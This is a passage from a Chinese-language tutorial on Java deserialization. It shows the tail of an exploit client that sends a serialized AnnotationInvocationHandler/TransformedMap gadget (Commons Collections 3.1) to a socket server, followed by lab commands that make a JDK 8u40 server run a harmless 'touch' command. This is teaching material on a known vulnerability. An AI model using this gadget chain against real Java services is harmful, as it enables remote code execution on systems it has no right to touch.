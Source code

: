 ```java
        Class               clazz       = Class.forName( "sun.reflect.annotation.AnnotationInvocationHandler" );
        /*
         * 用反射方式调用AnnotationInvocationHandler的构造函数
         *
         * http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/jdk8u232-ga/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java
         *
         * AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues)
         *
         * https://docs.oracle.com/javase/8/docs/api/java/lang/Class.html
         * https://docs.oracle.com/javase/8/docs/api/java/lang/reflect/Constructor.html
         *
         * Constructor<T> getDeclaredConstructor(Class<?>... parameterTypes)
         */
        Constructor         cons        = clazz.getDeclaredConstructor( Class.class, Map.class );
        cons.setAccessible( true );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/lang/annotation/Retention.html
         */
        Object              obj         = cons.newInstance( Retention.class, transformedMap );
        Socket              s_connect   = new Socket( addr, port );
        ObjectOutputStream  oos         = new ObjectOutputStream( s_connect.getOutputStream() );
        oos.writeObject( obj );
        oos.close();
        s_connect.close();
    }
}
```

EvilClientWithTransformedMap.java与TransformedMapExec.java相比，数据准备部
分几乎一样，区别在于最后的扳机不同。后者有显式的setValue()调用，前者只能在
反序列化过程中间接触发setValue()调用。为达此目的，前者引入新的奇技淫巧，比
如用反射方式序列化非public的类。

8.2.5) 测试

执行服务端:

java_8_40 \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

执行客户端:

java \
-cp "commons-collections-3.1.jar:." \
EvilClientWithTransformedMap 192.168.65.23 1414 "/bin/touch /tmp/scz_is_here"

注意服务端用8u40，如果用8u232，不会得手。

调试VulnerableServer:

java_8_40 -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414
